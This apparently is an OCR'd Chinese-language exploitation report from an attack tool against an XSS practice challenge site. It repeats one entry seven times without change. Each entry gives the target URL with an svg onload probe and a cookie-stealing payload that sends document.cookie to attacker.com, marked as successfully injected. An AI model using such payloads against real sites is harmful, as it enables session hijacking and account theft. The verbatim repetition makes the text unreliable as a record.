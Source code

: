 ## 漏洞利用结果
### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传
